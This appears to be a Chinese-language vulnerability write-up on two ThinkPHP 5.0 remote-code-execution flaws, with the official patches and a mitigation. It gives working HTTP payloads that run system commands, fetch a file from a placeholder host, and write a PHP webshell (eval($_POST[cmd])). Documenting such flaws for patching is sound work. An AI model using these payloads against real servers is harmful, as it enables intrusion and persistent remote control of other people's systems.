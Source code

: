# ThinkPHP5.0 漏洞测试

> 自从ThinkPHP发布漏洞补丁以来，服务器不知道多少次受到了批量扫描漏洞来抓取肉鸡的请求
> 虽然官方早已发布补丁，还是想试一下TP漏洞，测试两个漏洞

## 一、全版本执行漏洞

```xml
<!-- GET -->
http://127.0.0.1/ThinkPHP/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
由于对控制器名没有明确的检测，在没有开启强制路由的情况下，直接就可以执行phpinfo()，如果服务器未限制shell等函数的执行，便可以直接执行shell提权
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200210103949976.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwNDEzNjcw,size_16,color_FFFFFF,t_70)
详细的漏洞执行过程可以参考 [漏洞执行过程](https://www.cnblogs.com/st404/p/10245844.html)

##### 官方补丁
加入正则表达式来限制控制器名
```php
/* /thinkphp/library/think/App.php 555行 加入 */
if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
     throw new HttpException(404, 'controller not exists:' . $controller);
}
```



## 二、_method漏洞

```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter[]=system&method=GET&get[]=dir
```
_触发条件_

```php
//Config.php
'var_method'             => '_method'
```

利用`$_POST['_method']`变量来传递真实的请求方法，当`$_POST['_method']=__construct`时，Request类的method方法便会将该类的变量进行覆盖，利用该方式将filter变量覆盖为system等函数名，当内部进行参数过滤时便会进行执行任意命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200210111131166.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwNDEzNjcw,size_16,color_FFFFFF,t_70)
基于此可以直接上传PHP文件 test.php
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&fileDown=copy("http://xxx/1.txt","test.php")
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=assert&method=get&server[REQUEST_METHOD]=fileDown
```
生成一句话木马
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&T=echo+^<?php+phpinfo();eval($_POST[cmd]);?^>+>>info.php
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=123
```

可以在config.php将_method设置为其他字符，或者升级TP

##### 官方补丁
官方补丁中限制了_method可疑设置的请求方法，并在处理_method之后将其unset，无法再利用__construct进行变量覆盖

```php
/* thinkphp/library/think/Request.php */
 public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $method = strtoupper($_POST[Config::get('var_method')]);
                if (in_array($method, ['GET', 'POST', 'DELETE', 'PUT', 'PATCH'])) {
                    $this->method = $method;
                    $this->{$this->method}($_POST);
                } else {
                    $this->method = 'POST';
                }
                unset($_POST[Config::get('var_method')]); //unset
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }
```

> 参考文章：
> https://www.cnblogs.com/st404/p/10245844.html
> https://mrxn.net/Infiltration/618.html
> https://www.cnblogs.com/nul1/p/11863574.html
> https://www.vulnbug.com/amp/thkphp5x-code-execution-vulnerabilities-and-bypass.html
> https://www.freebuf.com/vuls/194127.html
